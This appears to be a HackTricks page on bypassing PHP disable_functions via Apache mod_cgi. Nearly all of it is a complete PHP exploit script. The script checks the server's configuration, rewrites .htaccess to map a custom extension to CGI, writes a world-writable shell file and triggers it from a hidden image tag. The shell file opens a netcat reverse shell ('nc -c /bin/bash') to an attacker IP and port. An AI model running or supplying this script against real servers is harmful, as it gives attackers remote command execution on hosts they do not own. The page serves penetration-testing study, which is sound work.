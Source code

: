 # mod_cgi

{#include ../../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

```php
<?php
// Only working with mod_cgi, writable dir and htaccess files enabled
$cmd = "nc -c '/bin/bash' 172.16.15.1 4444"; //command to be executed
$shellfile = "#!/bin/bash\n"; //using a shellscript
$shellfile .= "echo -ne \"Content-Type: text/html\\n\\n\"\n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
	echo "$text: " . ($condition ? $yes : $no) . "<br>\n";
}
if (!isset($_GET['checked']))
{
	@file_put_contents('.htaccess', "\nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
	header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
	$modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
	$writable = is_writable('.'); //current dir writable?
	$htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
		checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
		checkEnabled("Is writable",$writable,"Yes","No");
		checkEnabled("htaccess working",$htaccess,"Yes","No");
	if(!($modcgi && $writable && $htaccess))
	{
		echo "Error. All of the above must be true for the script to work!"; //abort if not
	}
	else
	{
		checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
		checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGI\nAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
		checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
		checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
		echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script
	}
}
?>
```

{#include ../../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


